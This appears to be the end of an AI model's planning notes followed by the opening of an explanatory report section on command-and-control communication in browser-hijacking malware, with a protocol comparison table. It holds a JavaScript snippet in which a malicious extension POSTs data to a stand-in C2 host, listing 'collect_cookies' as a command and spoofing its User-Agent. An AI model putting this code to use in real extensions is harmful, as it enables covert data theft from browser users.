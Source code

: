 Now, writing the paragraphs with these tables. Also, ensure that each section flows well, explaining the concepts in detail. Avoid being too technical but provide enough depth. For example, in DNS tunneling, explain that each DNS query can carry a small piece of data, so multiple queries are needed. Or mention that the response from the DNS server can also carry commands.

In the data exfiltration section, maybe mention that encrypted payloads are harder to detect but require more computational resources. Steganography is stealthy but requires encoding and decoding steps.

Also, in the conclusion of the section, tie it all together, explaining how C2 servers are central to controlling the malware and adapting to defenses.

I need to make sure that the content is comprehensive, each paragraph is well-developed, and tables are used where appropriate. Let me start writing each subsection with these points in mind.
</think>

## Command-and-Control (C2) Communication: Coordinating Malicious Activities  

Command-and-control (C2) communication is the backbone of browser hijacking malware, enabling attackers to remotely manage infected systems, issue commands, and exfiltrate stolen data. This section dissects the technical mechanisms, protocols, and evasion tactics used to maintain covert communication with C2 servers.  

---

### **1. Communication Protocols**  
Malware leverages protocols that blend with legitimate traffic to avoid detection. Below is a comparison of common protocols and their characteristics:  

| **Protocol**       | **Description**                                                                 | **Advantages**                          | **Challenges**                          |  
|---------------------|---------------------------------------------------------------------------------|-----------------------------------------|-----------------------------------------|  
| **HTTP/S**          | Uses standard web requests (GET/POST) to exchange commands and data.             | Easy to implement; encrypted traffic mimics normal browsing. | Blocked by firewalls if domains are flagged. |  
| **DNS Tunneling**   | Encodes commands in DNS queries (e.g., subdomains) and receives responses via DNS replies. | Bypasses network restrictions that allow DNS traffic. | Limited data size per query; requires DNS server control. |  
| **Custom Protocols**| Proprietary binary protocols over TCP/UDP, often encrypted.                      | Low network signature; harder to detect. | Requires complex implementation and infrastructure. |  

#### **Example HTTP/S Communication**  
Malware may send encrypted telemetry data to a C2 server using a POST request:  
```javascript  
// JavaScript snippet in a malicious extension  
fetch('https://c2-server.com/api/update', {  
  method: 'POST',  
  headers: {  
    'Content-Type': 'application/json',  
    'User-Agent': 'Mozilla/5.0 (Legitimate Browser)' // Mimics legitimate traffic  
  },  
  body: JSON.stringify({  
    "data": "SGVsbG8gV29ybGQh", // Base64-encoded payload  
    "commands": ["redirect", "collect_cookies"]  
  })  
});  
```  

---
